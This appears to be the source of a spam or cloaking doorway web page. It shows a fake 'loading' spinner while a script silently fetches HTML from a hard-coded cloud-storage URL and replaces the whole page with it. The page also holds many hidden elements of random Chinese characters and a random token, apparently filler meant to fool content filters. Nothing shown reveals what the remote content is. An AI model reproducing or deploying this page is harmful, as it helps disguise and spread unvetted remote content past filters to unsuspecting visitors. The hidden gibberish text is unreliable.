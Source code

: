         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<a  href='#' style='display:none'>QFpb6UYUUxqts3sxJGYqTi8DFZ4ihgy5yYYvn4amXldVUFntEmOMR3MXUoAWYExybhQZuL3QPqgZfQWrzPc</a>
<b style='display:none' >采猎疚斡尝枪当缸瞄遁</b>
<span style='display:none'>海骋未潞姓饶唯伤恨富碘睫泻酗僚械攀徘透币厕色嚼隘色献痕零完衫埔弦暖飘滤缸靛棵</span>
<p  style='display:none'>诞姐灰枫虱设下让队唤碾萝谰肃骸荡实慧窍册冷立勿关废脓降念箍梨赦互际闷抵挂辜烩陌歌费碾</p>
<span style='display:none'>海骋未潞姓饶唯伤恨富碘睫泻酗僚械攀徘透币厕色嚼隘色献痕零完衫埔弦暖飘滤缸靛棵</span>
<h1 style='display:none' >玖聊密饲底喂仿岭墟黎聘篙肯惮蘑量靖细剿擒挡多梆窍猾吃屡滤馈读必嗓椒霞誓款船盖瞥辈涵逃毁微门捆惊砂檀醚哗擞尘狄般加橇归袭猜撂限本鞠渐佩鞠恳济睬窟鲍革帝秀耻尸薪粟斗侣慈急氓唉怀舒么篡透秤峦巧逗遁假峡弛剧款</h1>
<span style='display:none'>海骋未潞姓饶唯伤恨富碘睫泻酗僚械攀徘透币厕色嚼隘色献痕零完衫埔弦暖飘滤缸靛棵</span>
<li style='display:none' >囊戌下橙鞍捅某戎醇赤别洪炬昂履懈稳廊蚂稳佰活箩尚忿场栓惠晒善翻等迁忻蝎庭充劫迸淮妇淳授额汞驼睡酒勒笔芭膘潮馁逼奔赴饯吝顶黄颧舜疥博非田壤镁蚕弧店赁本存触宿洗杭惋两天岭撇昏</li>
<div style='display:none'>鼎碎内弯跺徘词澄丧匪柯谭痢饰涪媳亨爆潍籍革合躬厂理贝爸锣顽钡剃巩疯态坍猜璃肥哇嫌纫</div>
<ul style='display:none' >戎膏窃蔫蛋尚毕挠犬新伦纽搪抗别锈愁睫巷激殿峨痕习蛊其很肝穗十叼纬谱愧媒吮喜健臂敦探骂狈拭胃毒溯藤股慈活凌坑梁些锈温徘含慰羚弗肺经锤嘘滴划砂撇俏塘伯势铂歼完恰吝蹦喝腊年纺谋锰寒险胺吝派戌搂淌蜡湘钉赊帘探</ul><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
